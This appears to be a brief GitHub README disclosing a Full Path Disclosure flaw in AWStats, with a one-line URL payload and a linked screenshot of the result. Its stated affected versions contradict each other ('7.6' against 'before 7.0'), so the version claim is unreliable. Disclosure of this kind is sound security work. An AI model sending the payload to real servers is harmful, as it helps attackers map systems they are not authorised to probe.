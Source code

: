 # AWStatsFullPathDisclosure
Full Path Disclosure at AWStats 7.6 or minor versions

Full Path Disclosure vulnerability in AWStats before 7.0 or minor versions allows remote attackers to know where config file is allocated, obtaining full path of server.

PAYLOAD: awstats.pl?framename=mainright&update=123123123123

RESULT:

![alt text](https://github.com/theyiyibest/AWStatsFullPathDisclosure/blob/master/full-path.jpg)

